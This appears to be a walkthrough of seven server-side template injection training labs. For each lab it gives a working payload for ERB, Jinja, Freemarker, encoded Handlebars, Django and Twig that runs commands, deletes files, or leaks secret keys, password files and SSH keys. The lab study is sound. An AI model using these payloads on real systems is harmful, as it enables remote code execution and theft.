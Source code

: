 1. This lab has a server side template injection in its `message` parameter. It uses ERB, which has the `system` method to execute arbitrary system commands. As a result, the following payload can be used to solve the lab: `/?message=<%=system(%27rm%20/home/carlos/morale.txt%27)%>`
2. This lab has a server side template injection in its preferred name feature. When changing your preferred name, a POST request is sent to the server with the `blog-post-author-display` value set to `user.name`, `user.nickname`, or `user.first_name`. This can be injected, and is then used in a template when loading user comments on a blog post. By commenting on a blog post, sending the following payload will cause a server side template injection whenever the comment is loaded: `user.name}}{%import%20os%}{{os.system('rm%20/home/carlos/morale.txt')}}`
3. This lab allows the user to edit templates directly. By inputting an invalid template, you can find that it's using the freemarker templating engine. From there, it can be trivially exploited using a known freemarker RCE template: `<#assign ex="freemarker.template.utility.Execute"?new()>${ex("rm /home/carlos/morale.txt")}`
4. This lab is the same as the first, but by using an invalid template syntax you can find that it uses handlebars. There are well-known handlebars RCE injections, so one can be modified for this lab. The following payload solves the lab: `/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d`
5. This lab is the same as the 3rd, but uses Django instead. By using the `{%debug%}` built-in template, you can see that you have access to the `settings` variable made by Django. According to the documentation, this variable is where the secret key is stored, and can be retrieved with the template `{{settings.SECRET_KEY}}`
6. This lab is the same as the previous, but uses a sandboxed version of Freemarker. However, the `product` object is still accessible, and the object tree can be navigated from there. The following payload will print the contents of the target file with the characters converted to decimal bytes: `${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}`. Converting the bytes back into ASCII characters retrieves the file contents
7. This lab is the same as the 2nd lab, but this time uses the PHP-base twig templating engine. When attempting to upload an invalid image, the error message leaks the existence of `/home/carlos/User.php`, as well as the existence of the `user.setAvatar()` method. By attempting to call this in an injected template, it is possible to determine that the calling syntax is `user.setAvatar(<path to file>, 'image/jpg')` in order to trick the MIME type. By injecting this template and then accessing `/avatar?avatar=wiener`, we an get arbitrary file read. This can be used to leak the source of the previously mentioned `User.php` file in order to see what other methods are available. This shows the existence of the `gdprDelete()` method, which deletes a user's avatar. As such, the following payload solves the lab by setting the user's avatar to the desired file and immediately calling the `gdprDelete()` method: `user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')}}{{user.gdprDelete()`
